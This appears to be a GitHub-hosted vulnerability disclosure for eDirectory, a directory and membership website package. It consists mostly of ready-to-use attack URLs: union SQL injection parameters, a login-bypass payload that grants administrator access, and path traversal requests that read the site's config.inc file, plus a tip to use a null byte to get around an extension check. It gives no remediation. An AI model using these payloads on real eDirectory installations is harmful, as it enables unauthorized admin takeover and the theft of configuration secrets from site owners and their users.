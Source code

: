 # eDirectory Multiple Vulnerabilities

Author: Efren Diaz @elefr3n

Vendor: https://www.edirectory.com/

Reported: yes, without response :D

Software Description: eDirectory is a software to create your own membership website, business directories, yellow pages, coupon sites, local guide, lead gen sites and more.

Version: All

## SQLi
Union SQLi:
```
http://site.com/location.php?type=byId&id=[INT]&childLevel=[INT]&level=[SQLi]
http://site.com/sitemgr/login.php?key=[SQLi]
```

## SQLi to login bypass
Sometimes returns "Invalid key error", then press F5 and you will logged as an administrator :)
```
http://site.com/sitemgr/login.php?key=' union select 0,1,0,'sitemgr' -- -
```

## Authenticated File Dissclosure
Only files with .php extension, but don't forget try nullbyte to avoid that :D
```
http://site.com/sitemgr/langcenter/language_file.php?language_area=front&domain_id=1&language_id=../conf/config.inc
http://site.com/sitemgr/configuration/geography/language/language_file.php?language_area=front&domain_id=1&language_id=../conf/config.inc
```
